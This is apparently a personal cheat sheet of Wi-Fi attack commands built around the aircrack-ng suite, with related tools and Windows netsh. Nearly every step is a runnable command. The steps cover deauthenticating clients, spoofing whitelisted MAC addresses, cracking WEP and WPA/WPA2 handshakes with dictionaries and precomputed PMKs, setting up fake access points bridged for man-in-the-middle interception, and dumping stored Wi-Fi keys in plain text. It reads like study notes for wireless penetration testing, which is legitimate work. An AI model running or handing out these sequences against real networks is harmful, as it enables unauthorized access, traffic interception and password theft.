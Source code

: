 1. monitor mode is like promiscuous mode of the ethernet world where all the traffic can be monitored at a given time on the current channel.

**Powering up the wireless card**
2. ifconfig wlan0 up ---> start the wireless card 

3. airmon-ng start wlan0 <channel> ---> monitor mode interface is created on top of the device for sniffing 

**Check active Access points and the stations/clients connecting to it**
4. airodump-ng --band bn wlan0mon ---> make the card hop through different channel and check wifi traffic

5. mdk3 wlan0mon b -n baba ---> Creating a fake AP broadcasting beacons with SSID baba

**Finding Hidden SSIDs**
6. 
	a. Passive way - monitor the network for clients to connect
	b. active way - break all the connections between clients and Access point and further monitor the traffic for assocication traffic.
		(send the deauthentication notification packet to the clients)

	aireplay-ng --deauth 0 -a <BSSID> wlan0mon -D   

	--deauth 0 will continously send deauth packets
	-D disable AP detection

7. Bypassing MAC filters

	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon  --> Trying a fake authentication using the wireless card when MAC filter is off(open network)
	b. aireplay-ng --fakeauth 10 -e Logan wlan0mon -h <whiteListedMacAddress> --> To spoof a mac address and fool the AP to allow authentication

8. Cracking Shared/WEP encyption
	
	a. aireplay-ng --fakeauth 10 -e Logan wlan0mon -y <KeyStreamFile>

9. Creating random soft wifi interface

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon

10. MiTM over Wireless

	a. airbase-ng -a AA:AA:AA:AA:AA:AA -e Logan wlan0mon -v    ---> Broadcast fake AP SSID
	b. ifconfig at0 up  ---> Power up the soft interface created
	c. 
		1. brctl addbr mitm  ---> creating bridge mitm with brctl
		2. brctl addif mitm eth0  ---> adding interfaces to the bridge
		   brctl addif mitm at0

		3. ifconfig eth0 0.0.0.0 up
		   ifconfig at0 0.0.0.0 up

		4. ifconfig mitm up   ---> powering up the bridge interface
		5. dhclient mitm & ---> running dhcp client on bridge interface 	
			---> bridge the 2 interfaces (at0 with the other interface that has internet On)

**links --> https://forums.kali.org/showthread.php?17926-Fake-access-point-ettercap-sslstrip

11. Breaking WEP

	a. airodump-ng --channel 6 wlan0mon --write <fileName> --bssid <bssid>  ---> Start dumping packets on the target channel 
	b. aireplay-ng --arpreplay -e Logan -h <macAddressOfVictim> wlan0mon ---> Replay arp packets (In parallel fire this command)
	3. aircrack-ng <capFile>  ---> Start cracking with aircrack

12. Cracking WPA/WPA2 (Dictionary based attack)
	a. airodump-ng mon0 --channel 6 --essid <wifiAPName> --write <file> ---> Capture the handshake
	b. use aircrack/ cowpatty along with the dictionary
	c. aircrack -w dict <pcapCaptureFile>

13. Cracking/Decrypting with airdecap-ng/ genpmk/ cowpatty/ pyrit - faster way

	a. airdecap-ng -e <essid> -p <passPhrase> <capturedPcapFile> -b <bssid>

	Fastening up the process by pre-calculating the PMKs and then trying the Dictionary attack with the already generated PMKs

	b. genpmk -f <dictionaryFile> -s <ESSID> -d <outputFile>  ---> Preshared key or PMK list creation
	c. cowpatty -d prePmks -s "Logan" -r malWpa2-01.cap  ---> Cracking with cowpatty

	With Pyrit

	d. pyrit -r <capFile containing handShake> analyze   ---> analyze the capture pcap file and derive handshakes and APs
	e. pyrit -o <pmkFile> -i <dictionaryFile> -e <ssid> passthrough

	f1. cowpatty -d <pmkFile> -s <ssid> -r <capturedPcapFile>
			or

	f2. pyrit -r <pcapfile> -i <precoputedPMKfile> attack_cowpatty	

	With Aircrack - analyze the handshake capture file

	g. aircrack -w dict <pcapCaptureFile>	

14. Creating a WEP, WPA fakes access point/ Honeypots	

	a. airbase-ng --essid Popeye -a aa:aa:aa:aa:aa:aa -c 13 mon1 (WEP)
	b. airbase-ng -W 1 --essid Popeye -a cc:cc:cc:cc:cc:cc -c 13 mon1 -z 2  (WPA)
	c. airbase-ng -W 1 --essid Popeye -a dd:dd:dd:dd:dd:dd -c 13 mon4 -Z 4  (WPA2)

15. WPA_Supplicant

	**wpa_supplication.conf** 

	ctrl_interface=/var/run/wpa_supplicant
	ap_scan=1

	network={
	ssid="Pop"
	proto=WPA
	key_mgmt=WPA-PSK
	pairwise=CCMP TKIP
	group=CCMP TKIP WEP104 WEP40
	psk="boloTarara"
	priority=2
	}

	**command**
	wpa_supplicant  -iwlan0 -c wpa_supplicant.conf
	
16. Windows WiFi commands

	a. netsh wlan show interfaces --> view all wifi interfaces

	b. netsh wlan show drivers  --> extract current wifi driver information

	c. netsh wlan show networks --> view available networks


	d. netsh wlan show profiles  --> view profiles of the wifi network that the windows machine has connected 

	e. netsh wlan show profiles name="SSID" --> look at the configuration details of a previously connected AP

	f. netsh wlan connect name="kela" interface="Wi-Fi" --> Connect to a wifi network from cmd

	g. netsh wlan export profile name="kela"  --> Dump the profile in an external file

	h. netsh wlan show profile name="kela" key=clear  --> Dump wifi password in plain text

	i. netsh wlan set hostednetwork mode=allow ssid=Ambanis key=l@urA1234     --> Creating a hosted network on windows
    	netsh wlan start hostednetwork






